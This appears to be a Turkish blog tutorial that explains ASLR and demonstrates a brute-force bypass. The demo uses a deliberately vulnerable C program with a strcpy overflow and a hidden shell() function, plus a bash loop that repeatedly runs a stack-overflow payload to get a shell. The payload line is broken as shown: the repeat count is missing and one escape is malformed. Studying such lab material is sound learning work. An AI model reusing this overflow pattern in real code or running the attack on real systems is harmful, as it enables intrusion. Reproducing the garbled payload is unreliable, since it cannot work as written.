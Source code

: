 ```yaml
---
layout: post
title:  "Address Space Layout Randomization (ASLR)"
author: "Alp Eren Işık"
date:   2020-02-26
categories: [binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `ASLR Nedir ?`

Adından da anlaşılacağı üzere program her çalıştırıldığında `sanal memory` üzerinde stack ve kütüphane adreslerini değiştiren bir koruma yöntemidir. (sanırım sadece .text bölümüne ait adresler sabit kalıyormuş)

Yani şu şekilde...

![1](/static/img/posts/ASLR/1.png)  

![2](/static/img/posts/ASLR/2.png)  

Her defasında adreslerin değiştiğini görebilirsiniz. Bu durumda exploitimizi yazarken elde etmiş olduğumuz adres programı kapattığımızda değişeceği için pek bir işe yaramayacaktır.

`NOT :`

Sistemimizde (linux için) `ASLR` korumasının açık olup olmadığına bakmak için aşağıdaki komutu girebiliriz. Eğer 0 ise kapalı, 1 ise orta, 2 ise full+full açık demektir

    cat /proc/sys/kernel/randomize_va_space


`NOT-2 :`

ASLR sistemimizde aktif olmasına rağmen bazen uygulama bunu desteklemeybilir ve her seferinde bize aynı adresi verebilir. Bu durumda da gcc ile derlerken birkaç parametre kullanabiliriz.

![3](/static/img/posts/ASLR/3.png)  

![4](/static/img/posts/ASLR/4.png)  

Burada dikkat ederseniz adresin belli bir kısmı değişirken belirli bir kısmı sabit kalmakta. Bu da `ASLR Bypass` yaparken işimize yarayabilecek bir detay.

# `Bypass ? `

ASLR korumasını bypass etmek için çeşitli yöntemler mevcut.

- `ret2libc + Bruteforcing`

- `Return Oriented Programming (ROP)`

- `return to PLT (ret2PLT)`

Şimdilik sadece bunları gördüm ilerde başka yöntemler ile karşılaşırsam eklerim.

# `DEMO`

Sanırım az biraz `ASLR`'nin ne olduğunu anladık. Şimdi de kısa bir örnek yapalım ki kafamızda ki soru işaretlerini giderelim. (Bu yazıda yukarda bahsettiğim tekniklerin hepsini anlatmayacağım)

Kodumuz şu şekilde...

    #include <stdio.h>
    #include <string.h>

    void shell() {
    	system("/bin/sh");
    }

    void vuln(char *str) {
    	char buffer[64];
    	strcpy(buffer, str);
    }

    void main(int argc, char *argv[]) {
    	vuln(argv[1]);
    	printf("%s\n","Exec Normal");
    }

**

    gcc vuln.c -o vuln

Derlediğimize göre gdb üzerinden açıp incelemeye başlayalım.

![5](/static/img/posts/ASLR/5.png)  

Buraya kadar bildiğimiz şeyler. gdb ile açtık ve breakpointimizi koyduk. Şimdi de programımız kaç karakterden sonra dönüş adresi yazacak onu bulalım.

![6](/static/img/posts/ASLR/6.png)  

`EEEE` karakterinde geri dönüyor. Demekki 76 karakterden sonra `eip` üzerine bir adres yazabilirim.

Dikkat ederseniz programımızın içerisinde kullanılmamış ve `/bin/sh` komutunu çalıştıran bir fonksiyon var. Bunun adresini bulup `eip` adresinin yerine yazarsam shell alabiliriz sanırım.

![7](/static/img/posts/ASLR/7.png)  

Adresi bulduk... Şimdi yerine koyalım

![8](/static/img/posts/ASLR/8.png)  

Evet gdb üzerinden başarılı bir şekilde shellimizi aldık. Ancak burda adresler değişken değildi yani eğer biz gdb üzerinden değilde direk terminal üzerinden exploitimizi çalıştırırsak bu çalışmayacaktır. (ASLR koruması açıkken)

![9](/static/img/posts/ASLR/9.png)  

ASLR koruması açıkken `Segmentation Fault` hatası aldık. İsterseniz bir de bu koruma kapalıyken çalışıp çalışmadığına bir göz atalım. (maksat içimiz rahat etsin)

![10](/static/img/posts/ASLR/10.png)  

Evet exploitimiz `ASLR` koruması kapalıyken cayır cayır çalışmakta ancak koruma açıldığı zaman o kadar da etkili değil. Bunun için ufak bir bash script yazacağız. Kısaca yapacağımız şey ise bir döngü oluşturup sürekli olarak exploitimizi çalıştıracağız ve şans eseri doğru adresin denk gelmesini bekleyeceğiz.

    while true
    do
    ./vuln $(python -c 'print "A"*+"BBBB"+"CCCC"+"DDDD"+"\Xb9\x11\x40\x00"')
    done

**

![11](/static/img/posts/ASLR/11.png)  

Ve gördüğünüz gibi `ASLR` koruması açıkken de exploitimizi çalıştırmış olduk.

### `Son Not`

Şans ağırlıklı bir çözüm oldu ancak konunun anlaşılması için diğer yöntemlere göre daha basit ve daha sade bir çözüm olduğunu düşündüğüm için bu yolu tercih ettim. İlerleyen zamanlarda (vakit buldukça) diğer yöntemler ile alakalı da birşeyler yazmaya çalışacağım :)
